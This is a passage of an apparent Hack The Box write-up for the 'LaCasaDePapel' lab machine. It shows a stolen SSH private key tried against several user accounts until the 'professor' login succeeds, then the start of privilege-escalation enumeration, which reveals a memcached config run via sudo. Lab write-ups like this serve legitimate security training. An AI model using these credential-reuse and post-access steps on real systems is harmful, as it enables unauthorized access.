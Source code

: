 ```c
```

Or through browser

![](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/LaCasaDePapel/img/12.png)

Now we got the ```id_rsa``` SSH key, lets try to login after setting the permission to ```600```

```c
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/LaCasaDePapel]
└─$ ssh berlin@10.10.10.131 -i id_rsa  
berlin@10.10.10.131's password: 

```

Seems like this key is not for ```berlin```

Lets try for all users,

```
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/LaCasaDePapel]
└─$ ssh oslo@10.10.10.131 -i id_rsa  
oslo@10.10.10.131's password: 

                                                                                                                                                  
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/LaCasaDePapel]
└─$ ssh dali@10.10.10.131 -i id_rsa 
dali@10.10.10.131's password: 

                                                                                                                                                  
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/LaCasaDePapel]
└─$ ssh professor@10.10.10.131 -i id_rsa 

 _             ____                  ____         ____                  _ 
| |    __ _   / ___|__ _ ___  __ _  |  _ \  ___  |  _ \ __ _ _ __   ___| |
| |   / _` | | |   / _` / __|/ _` | | | | |/ _ \ | |_) / _` | '_ \ / _ \ |
| |__| (_| | | |__| (_| \__ \ (_| | | |_| |  __/ |  __/ (_| | |_) |  __/ |
|_____\__,_|  \____\__,_|___/\__,_| |____/ \___| |_|   \__,_| .__/ \___|_|
                                                            |_|       

lacasadepapel [~]$ whoami
professor
lacasadepapel [~]$ id
uid=1002(professor) gid=1002(professor) groups=1002(professor)
```

So, it is the key for ```professor```

## Privilege Escalation

Lisiting the files in ```professor```,

```c
lacasadepapel [~]$ ls -la
total 24
drwxr-sr-x    4 professo professo      4096 Mar  6  2019 .
drwxr-xr-x    7 root     root          4096 Feb 16  2019 ..
lrwxrwxrwx    1 root     professo         9 Nov  6  2018 .ash_history -> /dev/null
drwx------    2 professo professo      4096 Jan 31  2019 .ssh
-rw-r--r--    1 root     root            88 Jan 29  2019 memcached.ini
-rw-r-----    1 root     nobody         434 Jan 29  2019 memcached.js
drwxr-sr-x    9 root     professo      4096 Jan 29  2019 node_modules
lacasadepapel [~]$ cat memcached.ini 
[program:memcached]
command = sudo -u nobody /usr/bin/node /home/professor/memcached.js
```
